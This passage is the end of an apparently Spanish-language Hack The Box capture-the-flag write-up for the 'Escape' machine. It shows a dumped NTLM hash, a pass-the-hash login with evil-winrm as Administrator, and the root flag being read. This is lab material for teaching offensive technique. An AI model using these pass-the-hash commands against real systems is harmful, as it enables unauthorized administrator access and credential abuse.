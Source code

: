 ```bash
  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : A52F78E4C751E5F5E17E1E9F3E58F4EE
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> 
```
Nos conectamos usando el hash `NTLM`
```bash
❯ evil-winrm -i 10.10.11.202 -u Administrator -H A52F78E4C751E5F5E17E1E9F3E58F4EE

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
sequel\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

Procedemos a leer la flag.
```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ../Desktop/root.txt
146a3dc7812a7b839f482285b6701f3b
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```


![Hacker ]({{ 'assets/img/posts//htb/escape/hacker.gif' | relative_url }}){: .center-image }
_ROOT_


